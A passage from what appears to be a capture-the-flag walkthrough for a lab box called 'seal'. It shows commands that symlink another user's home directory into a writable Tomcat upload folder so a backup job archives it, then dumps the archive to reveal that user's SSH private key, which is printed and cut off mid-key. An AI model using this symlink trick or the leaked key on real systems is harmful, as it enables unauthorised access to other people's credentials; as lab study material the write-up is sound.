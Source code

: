 /var/lib/tomcat9/webapps/ROOT/admin/dashboard/:
  total 100
  drwxr-xr-x 7 root root  4096 May  7 09:26 .
  drwxr-xr-x 3 root root  4096 May  6 10:48 ..
  drwxr-xr-x 5 root root  4096 Mar  7  2015 bootstrap
  drwxr-xr-x 2 root root  4096 Mar  7  2015 css
  drwxr-xr-x 4 root root  4096 Mar  7  2015 images
  -rw-r--r-- 1 root root 71744 May  6 10:42 index.html
  drwxr-xr-x 4 root root  4096 Mar  7  2015 scripts
  drwxrwxrwx 2 root root  4096 Aug 25 14:16 uploads

Quickly we see that the 'uploads' directory is writable, we can create a symlink and then grab the content.

  tomcat@seal:/opt/backups/archives$ ln -d -s /home/luis/ /var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads/luis-pls

We can see that one of the files is much bigger, this is because it also contains /home/luis.
  tomcat@seal:/opt/backups/archives$ ls -al
    total 114704
    drwxrwxr-x 2 luis luis      4096 Aug 25 14:38 .
    drwxr-xr-x 4 luis luis      4096 Aug 25 14:38 ..
    -rw-rw-r-- 1 luis luis 115628384 Aug 25 14:35 backup-2021-08-25-14:35:32.gz
    -rw-rw-r-- 1 luis luis    606058 Aug 25 14:36 backup-2021-08-25-14:36:32.gz

Examine the file using zcat / zgrep. My way was absolutely not the best way, as all data printed out
and I had to go through many many rows before I found the id_rsa file.

  tomcat@seal:/opt/backups/archives$ zcat -f backup-2021-08-25-14:35:32.gz
    ..
    dashboard/uploads/luis-pls/.ssh/id_rsa0000600000175000017500000000503600000000000020232 0ustar00luisluis00000000000000-----BEGIN OPENSSH PRIVATE KEY-----
    b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
    NhAAAAAwEAAQAAAYEAs3kISCeddKacCQhVcpTTVcLxM9q2iQKzi9hsnlEt0Z7kchZrSZsG
    DkID79g/4XrnoKXm2ud0gmZxdVJUAQ33Kg3Nk6czDI0wevr/YfBpCkXm5rsnfo5zjEuVGo
    MTJhNZ8iOu7sCDZZA6sX48OFtuF6zuUgFqzHrdHrR4+YFawgP8OgJ9NWkapmmtkkxcEbF4
    n1+v/l+74kEmti7jTiTSQgPr/ToTdvQtw12+YafVtEkB/8ipEnAIoD/B6JOOd4pPTNgX8R
    MPWH93mStrqblnMOWJto9YpLxhM43v9I6EUje8gp/EcSrvHDBezEEMzZS+IbcP+hnw5ela
    duLmtdTSMPTCWkpI9hXHNU9njcD+TRR/A90VHqdqLlaJkgC9zpRXB2096DVxFYdOLcjgeN
    3rcnCAEhQ75VsEHXE/NHgO8zjD2o3cnAOzsMyQrqNXtPa+qHjVDch/T1TjSlCWxAFHy/OI
    PxBupE/kbEoy1+dJHuR+gEp6yMlfqFyEVhUbDqyhAAAFgOAxrtXgMa7VAAAAB3NzaC1yc2
    EAAAGBALN5CEgnnXSmnAkIVXKU01XC8TPatokCs4vYbJ5RLdGe5HIWa0mbBg5CA+/YP+F6
    56Cl5trndIJmcXVSVAEN9yoNzZOnMwyNMHr6/2HwaQpF5ua7J36Oc4xLlRqDEyYTWfIjru
    7Ag2WQOrF+PDhbbhes7lIBasx63R60ePmBWsID/DoCfTVpGqZprZJMXBGxeJ9fr/5fu+JB
    JrYu404k0kID6/06E3b0LcNdvmGn1bRJAf/IqRJwCKA/weiTjneKT0zYF/ETD1h/d5kra6
    m5ZzDlibaPWKS8YTON7/SOhFI3vIKfxHEq7xwwXsxBDM2UviG3D/oZ8OXpWnbi5rXU0jD0
    wlpKSPYVxzVPZ43A/k0UfwPdFR6nai5WiZIAvc6UVwdtPeg1cRWHTi3I4Hjd63JwgBIUO+
    VbBB1xPzR4DvM4w9qN3JwDs7DMkK6jV7T2vqh41Q3If09U40pQlsQBR8vziD8QbqRP5GxK
    MtfnSR7kfoBKesjJX6hchFYVGw6soQAAAAMBAAEAAAGAJuAsvxR1svL0EbDQcYVzUbxsaw
    MRTxRauAwlWxXSivmUGnJowwTlhukd2TJKhBkPW2kUXI6OWkC+it9Oevv/cgiTY0xwbmOX
    AMylzR06Y5NItOoNYAiTVux4W8nQuAqxDRZVqjnhPHrFe/UQLlT/v/khlnngHHLwutn06n
    bupeAfHqGzZYJi13FEu8/2kY6TxlH/2WX7WMMsE4KMkjy/nrUixTNzS+0QjKUdvCGS1P6L
    hFB+7xN9itjEtBBiZ9p5feXwBn6aqIgSFyQJlU4e2CUFUd5PrkiHLf8mXjJJGMHbHne2ru
    p0OXVqjxAW3qifK3UEp0bCInJS7UJ7tR9VI52QzQ/RfGJ+CshtqBeEioaLfPi9CxZ6LN4S
    1zriasJdAzB3Hbu4NVVOc/xkH9mTJQ3kf5RGScCYablLjUCOq05aPVqhaW6tyDaf8ob85q
    /s+CYaOrbi1YhxhOM8o5MvNzsrS8eIk1hTOf0msKEJ5mWo+RfhhCj9FTFSqyK79hQBAAAA
    wQCfhc5si+UU+SHfQBg9lm8d1YAfnXDP5X1wjz+GFw15lGbg1x4YBgIz0A8PijpXeVthz2
    ib+73vdNZgUD9t2B0TiwogMs2UlxuTguWivb9JxAZdbzr8Ro1XBCU6wtzQb4e22licifaa
    WS/o1mRHOOP90jfpPOby8WZnDuLm4+IBzvcHFQaO7LUG2oPEwTl0ii7SmaXdahdCfQwkN5
    NkfLXfUqg41nDOfLyRCqNAXu+pEbp8UIUl2tptCJo/zDzVsI4AAADBAOUwZjaZm6w/EGP6
    KX6w28Y/sa/0hPhLJvcuZbOrgMj+8FlSceVznA3gAuClJNNn0jPZ0RMWUB978eu4J3se5O
    plVaLGrzT88K0nQbvM3KhcBjsOxCpuwxUlTrJi6+i9WyPENovEWU5c79WJsTKjIpMOmEbM
    kCbtTRbHtuKwuSe8OWMTF2+Bmt0nMQc9IRD1II2TxNDLNGVqbq4fhBEW4co1X076CUGDnx
    5K5HCjel95b+9H2ZXnW9LeLd8G7oFRUQAAAMEAyHfDZKku36IYmNeDEEcCUrO9Nl0Nle7b
    Vd3EJug4Wsl/n1UqCCABQjhWpWA3oniOXwmbAsvFiox5EdBYzr6vsWmeleOQTRuJCbw6lc